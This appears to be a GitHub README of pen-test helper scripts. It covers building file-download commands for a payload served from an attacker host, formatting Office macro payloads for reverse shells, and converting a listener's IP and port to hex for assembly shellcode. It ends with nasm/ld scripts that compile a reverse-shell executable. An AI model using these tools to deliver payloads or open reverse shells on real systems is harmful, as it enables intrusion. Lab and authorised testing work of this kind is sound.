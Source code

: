 # Scripts to help the `Pen-Test` process
## Download file request builder

Simple bash script to quickly format different ways to download a file.

![linux_example](https://i.imgur.com/n7XZ33p.png)

```bash
./download_builder.sh -h
./download_builder.sh
./download_builder.sh -f sploit.exe -lh 10.10.14.51 -o linux
./download_builder.sh -f sploit.exe -lh tun0 -o win -f uwu.exe -lp 80 -s corp_share
```

## Office Macro Template Builder

Simple bash script to quickly format Macro payloads. To help fit the Winodws `255` character limit.

![macro_example](https://i.imgur.com/5aifc95.png)

```bash
./build_macro_template.sh
./build_macro_template.sh -h
./build_macro_template.sh -f revshell.p1
./build_macro_template.sh -p "<payload-string>" -o 2
```

---

## How to cross compile Assembly code with `nasm` and `ld` code from my YouTube Video

### Format the LHOST and LPORT into the proper hex for the Assembly payload.

```python3
#!/usr/bin/python3
import socket
import struct
import argparse

option = argparse.ArgumentParser(description="Convert LHOST and LPORT Into there Valid Hex format for Assembly")
option.add_argument("-i","--ip_address", required=False, help="IPV4 Address or LHOST of the Revshell Listener", type=str, default="10.10.14.4")
option.add_argument("-p","--port_number", required=False, help="Port Number or LPORT of the Revshell Listener", type=int, default=8443)

args = option.parse_args()

def ipv4_to_hex(ip_address):
    # Convert the IPv4 address to packed binary format
    packed_ip = socket.inet_aton(ip_address)
    # Convert the packed binary format to hexadecimal and reverse the order of bytes
    hex_ip = struct.unpack("!I", packed_ip)[0]
    reversed_ip = int.from_bytes(hex_ip.to_bytes(4, 'big'), 'little')
    return reversed_ip

def port_to_hex(port):
    # Convert port number to hexadecimal and reverse the order of bytes
    hex_port = struct.pack("!H", port)
    reversed_port = int.from_bytes(hex_port, 'little')
    return reversed_port

hex_ip = ipv4_to_hex(args.ip_address)
hex_port = port_to_hex(args.port_number)

print(f"IP Address: {args.ip_address} -> Hex-Flip: 0x{hex_ip:X}")
print(f"Port: {args.port_number} -> Port-Flip: 0x{hex_port:X}")
```

### Compile with `nasm` and `ld`

```bash
#!/bin/bash
# ./lin_to_win_compile_exe.sh filename.asm
file=$1
nasm -f win32 $file -o 1_obj.o &&  ld -m i386pe 1_obj.o -o z_rev.exe
```

```bash
#!/bin/bash
# ./rawbuild.sh filename.asm
file=$1
nasm -f win32 -o out.obj $file
objcopy -O binary out.obj just_raw.bin
```

* Get all the supported `nasm` formats with `nasm -h` help menu!
